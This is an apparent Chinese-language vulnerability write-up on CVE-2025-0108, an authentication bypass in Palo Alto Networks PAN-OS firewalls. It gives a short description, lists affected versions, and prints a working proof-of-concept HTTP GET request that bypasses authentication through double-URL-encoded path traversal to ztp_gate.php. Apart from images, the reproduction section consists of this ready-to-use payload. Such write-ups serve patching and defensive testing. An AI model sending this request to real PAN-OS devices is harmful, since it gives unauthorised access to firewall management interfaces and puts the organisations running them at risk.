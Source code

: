 **0x01漏洞介绍**



![img](Palo%20Alto%20Networks%20PAN-OS%20%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E(CVE-2025-0108).assets/640.png)

Palo Alto Networks PAN-OS是美国Palo Alto Networks公司的一套为其防火墙设备开发的操作系统。

Palo Alto Networks PAN-OS存在安全漏洞，该漏洞源于存在认证绕过漏洞，会影响PAN-OS完整性和保密性。



![Image](Palo%20Alto%20Networks%20PAN-OS%20%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E(CVE-2025-0108).assets/640-1744768981914-1.png)



**0x02影响版本**

1、 PAN OS 11.2 < 11.2.4-h4 

2、 PAN OS 11.1 < 11.1.6-h1 

3、 PAN OS 10.2 < 10.2.13-h3 

4、 PAN OS 10.1 < 10.1.14-h9

![图片](Palo%20Alto%20Networks%20PAN-OS%20%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E(CVE-2025-0108).assets/640-1744768981914-2.png)

![Image](Palo%20Alto%20Networks%20PAN-OS%20%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E(CVE-2025-0108).assets/640-1744768981914-1.png)



**0x03漏洞复现**

1.访问漏洞环境

![图片](Palo%20Alto%20Networks%20PAN-OS%20%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E(CVE-2025-0108).assets/640-1744768981914-3.png)

2.对漏洞进行复现

 **POC** 

漏洞复现``

```
GET /unauth/%252e%252e/php/ztp_gate.php/PAN_help/x.css HTTP/1.1
Host: 127.0.0.1
```

![图片](Palo%20Alto%20Networks%20PAN-OS%20%E8%BA%AB%E4%BB%BD%E9%AA%8C%E8%AF%81%E7%BB%95%E8%BF%87%E6%BC%8F%E6%B4%9E(CVE-2025-0108).assets/640-1744768981914-4.png)